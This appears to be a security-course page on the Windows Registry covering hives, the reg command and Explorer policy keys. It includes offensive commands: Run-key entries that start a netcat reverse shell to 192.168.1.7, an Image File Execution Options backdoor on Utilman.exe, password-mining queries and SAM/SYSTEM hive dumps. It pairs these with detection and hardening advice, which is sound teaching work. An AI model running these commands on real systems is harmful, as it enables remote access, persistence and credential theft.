

# Windows Registry

The Windows Registry is a hierarchical database that stores configuration settings and options for the Windows operating system, applications, hardware, and user preferences. It acts as a central repository for system settings, replacing older configuration files like `INI` files.

## Overview

The registry is queried, edited, backed up, and restored from the command line with the `reg` utility (see [REG-Command](REG-Command.md)) or interactively through the Registry Editor (`regedit`). Because it controls startup programs, service behavior, security policy, and credential storage, it is a primary surface for both administration and offense — autorun keys drive persistence, policy keys lock down or open up the desktop, and the `SAM`/`SYSTEM` hives hold the credential material dumped during Windows attacks. Registry work therefore appears constantly alongside [Windows-Basic-Commands](Windows-Basic-Commands.md), [Windows-Shell](Windows-Shell.md), and Windows-Privilege-Escalation.

## Key Features of Windows Registry

- Stores system-wide and user-specific settings.
- Used by the Windows OS, drivers, services, and applications.
- Helps configure and control hardware and software behavior.
- Enables automatic startup settings for programs.

## Where is the Windows Registry Stored?

The registry files (hives) are located in:   `%SystemRoot%\System32\Config`

|Registry File|Description|
|---|---|
|`DEFAULT`|Default registry settings.|
|`SAM`|Security Accounts Manager – Stores login data and credentials.|
|`SECURITY`|Security policy settings.|
|`SOFTWARE`|Installed applications and configuration settings.|
|`SYSTEM`|System-related settings and configurations.|
|`.sav` files|Backup copies of registry hives.|

> [!WARNING]
> **The SAM and SYSTEM hives are credential material**
> `HKLM\SAM` (protected by the `SYSTEM` hive's boot key) holds local account NT hashes. On a live system these files are locked, but they can be dumped offline or via Volume Shadow Copy — see [SAM-vs-NTDS.dit](../Active-Directory-Domain-Services-AD-DS/SAM-vs-NTDS.dit.md). Treat any copy of `SAM`/`SYSTEM` as sensitive credential data.

## Windows Registry Structure

The registry is organized into a hierarchical structure, similar to folders in a file system.

- **Hive** → Root-level container storing registry data (like a drive).
- **Key** → A subfolder inside a hive (can contain more keys or values).
- **Value** → A specific setting stored inside a key (like a file with data).



- Example path:

```text
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion
```

- `HKEY_LOCAL_MACHINE` → Hive
- `SOFTWARE` → Key
- `Microsoft` → Subkey
- `Windows` → Subkey
- `CurrentVersion` → Contains various values related to the Windows version

### Main Registry Hives

|Hive|Description|
|---|---|
|HKEY_CLASSES_ROOT (HKCR)|Stores file associations and COM objects.|
|HKEY_CURRENT_USER (HKCU)|Stores settings for the logged-in user.|
|HKEY_LOCAL_MACHINE (HKLM)|Stores system-wide settings (hardware, drivers, software).|
|HKEY_USERS (HKU)|Stores information for all user accounts.|
|HKEY_CURRENT_CONFIG (HKCC)|Stores current system configuration.|

> [!NOTE]
> **Common value types**
> Registry values carry a data type. The ones you will most often set with `reg add /t` are `REG_SZ` (string), `REG_DWORD` (32-bit number, used for most on/off policy flags), `REG_BINARY` (raw bytes), and `REG_EXPAND_SZ` (string with environment variables such as `%systemroot%`).

## Opening the Registry Editor

You can open the Registry Editor using Run or Command Prompt:

### Method 1: Using Run

1. Press `Win + R`
2. Type `regedit`
3. Press Enter

### Method 2: Using Command Prompt

```cmd
C:\Windows\regedit.exe
```

## Managing the Windows Registry from Command Prompt

The `reg` command drives the registry from a shell — essential when only a non-interactive command line is available. See [REG-Command](REG-Command.md) for the full reference.

### View Registry Command Options

```cmd
reg /?
```

### Common Registry Commands

|Command|Description|
|---|---|
|reg QUERY|Display contents of a registry key.|
|reg ADD|Add a new registry key or value.|
|reg DELETE|Delete a registry key or value.|
|reg SAVE|Save a registry key to a file.|
|reg RESTORE|Restore a registry key from a file.|
|reg EXPORT|Export a registry key to a `.reg` file.|
|reg IMPORT|Import a registry key from a `.reg` file.|
|reg COPY|Copy registry keys between hives.|
|reg COMPARE|Compare registry keys between hives.|

- Query Registry

```cmd
reg QUERY hkcu\software\microsoft\windows\currentversion\policies\explorer /v nodesktop
```

- Add a Registry Entry

```cmd
reg ADD hkcu\software\microsoft\windows\currentversion\policies\explorer /v nodesktop /t reg_dword /f /d 1
```

- Delete a Registry Entry

```cmd
reg DELETE hkcu\software\microsoft\windows\currentversion\policies\explorer /v nodesktop /f
```

- Save Registry Key

```cmd
reg SAVE hkcu\software\microsoft\windows\currentversion\policies\explorer hkcu_explorer.hiv
```

- Restore Registry Key

```cmd
reg RESTORE hkcu\software\microsoft\windows\currentversion\policies\explorer hkcu_explorer.hiv
```

- Export Registry Key

```cmd
reg EXPORT hkcu\software\microsoft\windows\currentversion\policies\explorer hkcu_explorer.reg
```

- Import Registry Key

```cmd
reg IMPORT hkcu_explorer.reg
```

- Copy Registry Key

```cmd
reg COPY hkcu\software\microsoft\windows\currentversion\policies\explorer hklm\software\microsoft\windows\currentversion\policies\explorer /f
```

- Compare Registry Keys

```cmd
reg COMPARE hkcu\software\microsoft\windows\currentversion\policies\explorer hklm\software\microsoft\windows\currentversion\policies\explorer
```

## Useful Registry Modifications

- Disable USB Devices

```cmd
reg ADD hklm\system\currentcontrolset\services\usbstor /v Start /t reg_dword /f /d 4
```

- Add Programs to Windows Startup

```cmd
reg ADD hkcu\Software\Microsoft\Windows\CurrentVersion\Run /v program_name /t reg_sz /f /d "C:\\path\\to\\program.exe"
```

```cmd
reg ADD hkcu\Software\Microsoft\Windows\CurrentVersion\Run /v nc /t reg_sz /f /d "nc64.exe -e cmd 192.168.1.7 443"
```

```cmd
reg ADD hkcu\Software\Microsoft\Windows\CurrentVersion\Run /v nc /t reg_sz /f /d "C:\Windows\System32\nc64.exe -e cmd 192.168.1.7 443"
```

- Query USB Devices

```cmd
reg QUERY HKEY_LOCAL_MACHINE\SYSTEM\controlset001\Enum\USBSTOR\
```

- Query Mounted Devices

```cmd
reg QUERY HKEY_LOCAL_MACHINE\SYSTEM\MountedDevices
```

- Query Recent Applications

```cmd
reg QUERY HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Search\RecentApps
```

- Find Windows Install Time and Date

```cmd
reg QUERY "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v InstallDate
```

- Modify Utilman.exe to cmd.exe

```cmd
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\Utilman.exe" /t REG_SZ /v Debugger /d "%systemroot%\system32\cmd.exe" /f
```

> [!WARNING]
> **Offensive technique — Image File Execution Options (IFEO)**
> Setting a `Debugger` value under IFEO for an accessibility binary (`Utilman.exe`, `sethc.exe`) launches `cmd.exe` as `SYSTEM` from the logon screen. This is a classic privilege-escalation / backdoor technique and a common detection signature — defenders should alert on writes to the `Image File Execution Options` key.

- Password Mining

```cmd
reg QUERY HKLM /f passw /t REG_SZ /s
```

```cmd
reg QUERY HKCU /f passw /t REG_SZ /s
```

- Saving Windows Passwords (SAM/SYSTEM hive dump)

```cmd
mkdir c:\pass
```

```cmd
reg SAVE hklm\sam c:\pass\sam
```

```cmd
reg SAVE hklm\system c:\pass\system
```

## Windows Explorer Policy Settings (Registry Keys)

These registry keys control Start Menu, Desktop, Taskbar, and other Windows Explorer features.

|Registry Key|Effect|
|---|---|
|NoDesktop|Hides all desktop icons and disables right-click on the desktop.|
|NoRun|Removes the "Run" option from the Start Menu.|
|NoPower|Removes Shutdown, Restart, and Sleep options from Start Menu & Task Manager.|
|NoClose|Disables the Shut Down option from the Start Menu.|
|NoDrives|Hides specific drive letters in File Explorer.|
|NoFavoritesMenu|Removes the Favorites from File Explorer.|
|NoRecentDocsHistory|Prevents saving of recent documents.|
|NoRecentDocsMenu|Removes the Recent Documents menu from Start Menu.|
|NoFind|Disables Search/Find from Start Menu and Explorer.|
|NoFolderOptions|Disables access to Folder Options in Explorer.|
|NoTrayContextMenu|Disables right-click menu on the system tray.|
|NoControlPanel|Blocks access to Control Panel & Settings App.|
|NoNetworkConnections|Removes Network Connections from Control Panel.|
|NoTaskbarGrouping|Disables taskbar button grouping.|
|NoViewContextMenu|Disables right-click in File Explorer.|
|NoStartMenuMorePrograms|Removes "More Programs" from the Start Menu.|
|NoLogOff|Removes the Log Off option from the Start Menu.|
|NoTaskManager|Disables the Task Manager (Ctrl+Shift+Esc).|
|NoSetFolders|Blocks access to special folders like My Documents, My Computer, etc.|
|NoDeletePrinter|Prevents users from deleting printers.|
|ClearRecentDocsOnExit|Clears recent document history on exit.|

### How to Use These Registry Keys?

Each policy is a `REG_DWORD` value.

- Enable a restriction → Set the value to `1`
- Disable a restriction → Set the value to `0`

- Example: Disable Desktop Icons (`NoDesktop`)

```cmd
Reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoDesktop /t REG_DWORD /f /d 1
```

- Example: Enable Task Manager (`NoTaskManager`)

```cmd
Reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoTaskManager /t REG_DWORD /f /d 0
```

### Full List of Registry Keys with Commands

- Hide Desktop Icons (`NoDesktop`)

```cmd
Reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoDesktop /t REG_DWORD /f /d 1
```

> Enable (`1`) → Hides desktop icons
> Disable (`0`) → Shows desktop icons

- Remove "Run" (`NoRun`)

```cmd
Reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoRun /t REG_DWORD /f /d 1
```

> Enable (`1`) → Removes Run from Start Menu
> Disable (`0`) → Adds Run

- Remove Shutdown/Restart (`NoPower`)

```cmd
Reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoPower /t REG_DWORD /f /d 1
```

> Enable (`1`) → Removes Shutdown, Restart, Sleep options
> Disable (`0`) → Enables them

- Disable Task Manager (`NoTaskManager`)

```cmd
Reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoTaskManager /t REG_DWORD /f /d 1
```

> Enable (`1`) → Blocks Task Manager
> Disable (`0`) → Allows Task Manager

- Remove "Folder Options" (`NoFolderOptions`)

```cmd
Reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoFolderOptions /t REG_DWORD /f /d 1
```

> Enable (`1`) → Hides Folder Options in File Explorer
> Disable (`0`) → Shows Folder Options

- Hide Drives in File Explorer (`NoDrives`)

```cmd
Reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoDrives /t REG_DWORD /f /d 4
```

> The value is a bitmask (bit 0 = A:, bit 1 = B:, bit 2 = C:, …):
>     - `1` → Hide A:
>     - `2` → Hide B:
>     - `4` → Hide C:
>     - `8` → Hide D:
>     - `3FFFFFFF` → Hide All Drives

- Remove "Control Panel" (`NoControlPanel`)

```cmd
Reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoControlPanel /t REG_DWORD /f /d 1
```

> Enable (`1`) → Blocks Control Panel & Settings
> Disable (`0`) → Allows Control Panel

- Remove "Recent Documents" (`NoRecentDocsMenu`)

```cmd
Reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoRecentDocsMenu /t REG_DWORD /f /d 1
```

> Enable (`1`) → Removes Recent Documents
> Disable (`0`) → Shows Recent Documents

- Disable "Search" (`NoFind`)

```cmd
Reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoFind /t REG_DWORD /f /d 1
```

> Enable (`1`) → Removes Search function
> Disable (`0`) → Allows Search

- Remove "Log Off" (`NoLogOff`)

```cmd
Reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoLogOff /t REG_DWORD /f /d 1
```

> Enable (`1`) → Removes Log Off
> Disable (`0`) → Allows Log Off

### Summary Table of Registry Keys

|Registry Key|Effect|Enable (`1`)|Disable (`0`)|
|---|---|---|---|
|NoDesktop|Hides desktop icons|Icons hidden|Icons shown|
|NoRun|Removes "Run" from Start Menu|Run removed|Run shown|
|NoPower|Disables Shutdown, Restart, Sleep|Options removed|Options shown|
|NoTaskManager|Disables Task Manager|Task Manager blocked|Task Manager allowed|
|NoControlPanel|Disables Control Panel|Control Panel blocked|Control Panel allowed|
|NoFolderOptions|Hides Folder Options in Explorer|Hidden|Shown|
|NoRecentDocsMenu|Removes Recent Documents|Removed|Shown|
|NoFind|Disables Search feature|Search removed|Search allowed|

## Security Considerations

The registry is one of the richest dual-use surfaces on Windows: the same keys administrators use for lockdown and configuration are the ones attackers use for persistence, privilege escalation, credential theft, and defense evasion.

> [!WARNING]
> **Registry as an attack surface**
> - **Persistence** — `Run`/`RunOnce` keys under `HKCU`/`HKLM`, plus services and IFEO `Debugger` values, survive reboots and auto-launch payloads.
> - **Privilege escalation** — the IFEO `Utilman.exe`/`sethc.exe` trick and weak service `ImagePath` permissions can yield `SYSTEM`.
> - **Credential access** — `reg save hklm\sam` and `hklm\system` dump the hives needed to extract local NT hashes offline (see [SAM-vs-NTDS.dit](../Active-Directory-Domain-Services-AD-DS/SAM-vs-NTDS.dit.md)).
> - **Recon / discovery** — searching (`reg query /f passw /s`) can surface passwords stored in plaintext across the hive.
> - **`reg.exe` is a LOLBin** — its use is legitimate and noisy, so attackers blend in; baseline and monitor it.

- Monitor writes to autorun keys (`Run`, `RunOnce`, `Image File Execution Options`) and to service configuration keys.
- Alert on `reg save`/`reg export` targeting `HKLM\SAM`, `HKLM\SYSTEM`, or `HKLM\SECURITY`.
- Restrict registry edit rights and require an elevated (Administrator) token for `HKLM` changes.

## Best Practices

- **Back up before editing** — export the target key (`reg export`) or create a System Restore point so a bad change is reversible.
- **Prefer Group Policy** over ad-hoc registry edits for policy settings — it is centrally managed, audited, and reversible.
- **Least privilege** — only make `HKLM` changes from an elevated shell, and keep registry-edit permissions restricted.
- **Audit sensitive keys** — enable auditing on autorun, IFEO, and credential hives so changes are logged.
- **Test on snapshots** — validate impactful edits on a lab VM before touching production; a wrong value can break boot or logon.

## Troubleshooting

| Symptom | Likely cause & fix |
|---|---|
| "Access is denied" on `reg add`/`reg delete` | Editing `HKLM` (or a protected key) without elevation — reopen CMD/PowerShell as Administrator. |
| Change made but not taking effect | Setting is read at logon/startup or cached — sign out/in or reboot; some Explorer policies need `explorer.exe` restart. |
| `reg save hklm\sam` fails | The key requires backup privilege and elevation; run as Administrator (or use a Volume Shadow Copy for locked hives). |
| Edited the wrong hive/key | Restore from your `reg export` `.reg` file (`reg import file.reg`) or a System Restore point. |
| Value type mismatch (data ignored) | Wrong `/t` type — e.g. a policy flag must be `REG_DWORD`, not `REG_SZ`. |

## References

- [Windows registry information for advanced users (Microsoft Learn)](https://learn.microsoft.com/en-us/troubleshoot/windows-server/performance/windows-registry-advanced-users)
- [reg command reference (Microsoft Learn)](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/reg)
- [regedit command reference (Microsoft Learn)](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/regedit)

## Related

- [Enterprise Windows Infrastructure Security](../Readme.md) — course hub
- [REG-Command](REG-Command.md) — the `reg` CLI used to query and edit the registry
- [Windows-Basic-Commands](Windows-Basic-Commands.md) — everyday CMD commands including `reg`
- [Windows-Shell](Windows-Shell.md) — CMD vs PowerShell, where these commands run
- [PowerShell-Commands-for-Penetration-Testing](PowerShell-Commands-for-Penetration-Testing.md) — PowerShell registry access for offense
- [SAM-vs-NTDS.dit](../Active-Directory-Domain-Services-AD-DS/SAM-vs-NTDS.dit.md) — where the credential hives fit in Windows auth
- Windows-Privilege-Escalation — registry autoruns and weak keys for privesc and persistence
